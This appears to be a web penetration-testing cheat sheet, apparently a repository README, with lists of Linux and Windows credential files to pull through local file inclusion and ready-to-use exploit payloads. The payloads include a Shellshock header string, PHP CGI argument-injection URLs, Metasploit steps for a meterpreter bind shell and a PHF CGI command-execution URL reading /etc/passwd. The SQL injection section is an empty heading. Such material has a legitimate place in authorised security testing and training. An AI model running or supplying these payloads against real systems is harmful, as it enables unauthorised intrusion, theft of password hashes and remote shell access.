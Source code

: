 # Tools
  * Burp Spidering
  * Nikto
  * Dirbuster
  * Dirb


## SQL Injection


## Exfiltrate Linux Files - Local File Inclusion
```
/etc/issue
/proc/version
/etc/profile
/etc/passwd
/etc/shadow
/root/.bash_history
/var/log/dmessage
/var/mail/root
/var/spool/cron/crontabs/root

...log files
```

## Exfiltrate Windows Files - Local File Inclusion
```
%SYSTEMROOT%\repair\system
%SYSTEMROOT%\repair\SAM
%WINDIR%\win.ini
%SYSTEMDRIVE%\boot.ini
%WINDIR%\Panther\sysprep.inf
%WINDIR%\system32\config\AppEvent.Evt
```

## PHP CGI-Bin Exploits

**Exploiting ShellShock via CGI-Bin - [CVE-2014-6271]**
<br/>
![Shell Shock via User-Agent Header](./img/SHELL_SHOCK.png)
```
() { :;}; echo $(</etc/passwd)
```

**Detect / Exploit PHP CGI Bug - [CVE-2012-1823]**
<br/>
_Detection:_
```
nmap -p 80, 8080, 443 --script http-cve2012-1823
http://vulnerable/?-s
```

_Exploitation:_
```
# Enable allow_url_include=1
http://vulnerable/?-d+allow_url_include%3d1+-d+auto_prepend_file%3dphp://input
```

_Meterpreter TCP Bind_
```
msfconsole
use exploit/multi/http/php_cgi_arg_injection
set rhost [URL]
set rhost [HOST_IP]
set PAYLOAD php/meterpreter/bind_tcp
exploit
```

**PHF CGI Remote Command Execution - [CVE-1999-0067]**
```
http://www.thesite.com/cgi-bin/phf?Qalias=x%0a/bin/cat%20/etc/passwd

```
